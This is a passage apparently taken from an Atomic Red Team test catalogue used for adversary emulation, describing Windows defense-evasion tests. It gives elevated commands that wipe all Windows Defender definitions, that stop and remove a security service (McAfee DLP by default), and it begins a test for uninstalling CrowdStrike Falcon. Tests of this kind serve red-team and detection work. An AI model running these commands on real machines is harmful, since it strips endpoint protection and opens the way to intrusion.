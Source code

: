 **Supported Platforms:** Windows

**auto_generated_guid:** 3d47daaa-2f56-43e0-94cc-caf5d8d52a68

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

<br/>
<br/>

## Atomic Test #21 - Stop and Remove Arbitrary Security Windows Service

Beginning with Powershell 6.0, the Stop-Service cmdlet sends a stop message to the Windows Service Controller for each of the specified services. The Remove-Service cmdlet removes a Windows service in the registry and in the service database.

**Supported Platforms:** Windows

**auto_generated_guid:** ae753dda-0f15-4af6-a168-b9ba16143143

#### Inputs:

| Name         | Description                       | Type   | Default Value         |
| ------------ | --------------------------------- | ------ | --------------------- |
| service_name | The name of the service to remove | string | McAfeeDLPAgentService |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Stop-Service -Name #{service_name}
Remove-Service -Name #{service_name}
```

<br/>
<br/>

## Atomic Test #22 - Uninstall Crowdstrike Falcon on Windows

Uninstall Crowdstrike Falcon. If the WindowsSensor.exe path is not provided as an argument we need to search for it. Since the executable is located in a folder named with a random guid we need to identify it before invoking the uninstaller.

**Supported Platforms:** Windows

**auto_generated_guid:** b32b1ccf-f7c1-49bc-9ddd-7d7466a7b297

#### Inputs:

| Name         | Description                                                   | Type | Default Value                                                                                         |
| ------------ | ------------------------------------------------------------- | ---- | ----------------------------------------------------------------------------------------------------- |
| falcond_path | The Crowdstrike Windows Sensor path. The Guid always changes. | path | C:&#92;ProgramData&#92;Package Cache&#92;{7489ba93-b668-447f-8401-7e57a6fe538d}&#92;WindowsSensor.exe |
